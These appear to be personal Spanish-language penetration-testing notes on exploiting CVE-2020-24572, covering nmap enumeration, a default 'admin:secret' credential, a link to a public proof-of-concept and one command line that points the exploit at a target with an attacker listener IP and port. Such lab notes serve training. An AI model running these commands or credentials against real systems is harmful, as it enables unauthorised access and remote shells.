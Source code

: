 ## DESCRIPTION

ENUMERACION CON BIG NMAP

![[Pasted image 20230704204210.png]]


DEFAULT CREDENTIAL

admin:secret

#### Mas información
* https://github.com/gerbsec/CVE-2020-24572-POC


## EXPLOITATION

### OPTION 1: v2.5
https://github.com/gerbsec/CVE-2020-24572-POC

```
python3 exploit.py 192.168.187.97 8091 192.168.45.172 443 secret 1 
```


![[Pasted image 20230704204104.png]]

### OPTION 1: v2.6
Existe otro para la version 2.6.6, no probado:

![[Pasted image 20230704204140.png]]

## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 